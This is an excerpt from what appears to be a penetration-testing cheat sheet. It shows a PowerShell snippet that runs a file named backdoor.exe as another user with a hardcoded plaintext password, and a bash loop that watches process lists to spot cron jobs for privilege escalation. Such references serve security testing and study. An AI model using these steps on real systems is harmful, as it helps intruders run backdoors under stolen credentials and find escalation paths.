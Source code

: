 **Powershell Run as**

Run file as another user with powershell.


echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```

**Process Monitor**

Monitor processes to check for running cron jobs.


#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
    sleep 1
    old_process=$new_process
done
```

